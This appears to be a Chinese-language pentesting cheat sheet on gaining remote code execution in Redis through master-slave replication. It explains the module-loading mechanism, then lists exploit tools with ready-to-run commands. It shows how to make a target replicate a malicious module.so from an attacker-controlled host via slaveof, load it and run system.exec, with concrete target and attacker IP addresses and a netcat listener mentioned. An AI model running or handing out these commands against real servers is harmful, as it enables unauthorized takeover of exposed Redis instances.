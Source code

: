### Redix主从复制RCE
如果将数据存贮在单个Redis实例中, 当读写数据量加大, 服务端很难承受. Redis提供了主从模式, 使用一个Redis实例作为主机, 其他实例作为备份机. 其中, 主机和从机数据相同, **从机只负责读, 主机只负责写**, 通过读写分离可以大幅度减轻流量的压力, 通过空间换取效率. 
基于Redis主从复制的机制，可以通过FULLRESYNC将任意文件同步到从节点(slave). 在Redis4.x 之后, 新增了模块功能, 使用c语言编译外部扩展`.so`文件, 并利用*从机的同步功能*加载到目标redis, 可以实现在redis中执行一个新的redis命令. 这就使得它可以轻易实现以上任何一种漏洞利用方式, 而且存在着更多的可能性, 等待被探索.
#### 漏洞利用
##### 自动化脚本
https://github.com/0671/RabR.git
```sh
python3 redis-attack.py -r [target_addr] -p [target_port] -L [vps_ip] -P [vps_rouge_port] --brute
```
命令中的`rouge_port`是用来工具连接, 另准备一个开放端口nc lvvp监听
##### 手动脚本
1. 手动编译so扩展文件
```shell
git clone https://github.com/puckiestyle/RedisModules-ExecuteCommand
cd RedisModules-ExecuteCommand
make
```
2. 脚本利用漏洞
https://github.com/puckiestyle/RedisModules-ExecuteCommand
https://github.com/Ridter/redis-rce
	- -r/-p 目标ip/端口
	- -L/-P 攻击方ip/端口
	- -f    file加载文件, 默认exp.so
	- -v    详细描述
	- -a    redis密码
https://github.com/Dliv3/redis-rogue-server
https://github.com/vulhub/redis-rogue-getshell
```shell
# 下载redis-rce工具
git clone https://github.com/Ridter/redis-rce
cd redis-rce
# 使用redis-rce, 连接并上传module.so
python3 -m pip install -r requitement.txt
cp /root/RedisModules-ExecuteCommand/module.so ./module.so
python3 redis-rce.py -r [target] -p [target_port] -L [vps_ip] -P [vps_port] -f module.so
# 通过未授权连接, 命令执行
redis-cli -h 47.104.255.11 -p 6379
config get dir
config get dbfilename
system.exec "id"
```

#### 脚本原理
```shell 
python3 redis-rce.py -r 47.104.255.11 -p 6379 -L 124.71.45.28 -P 8899 -modules.so
```
1. 连接目标47.104.255.11的6379端口redis服务
2. 发送配置主从模式的命令到目标redis服务
```shell
slaveof 124.71.45.28 8899
config set dbfilename module.so

# 监听124.71.45.28:8899为redis主机
# 目标机(从机)从主机(124.71.45.28)复制数据库内容(被rce代理为modules文件)保存到本地文件module.so
```
3. 目标机器加载`module.so`扩展模块
```
MODULE LOAD ./module.so
```
4. 执行模块中携带的system命令
```
system.exec "id"
```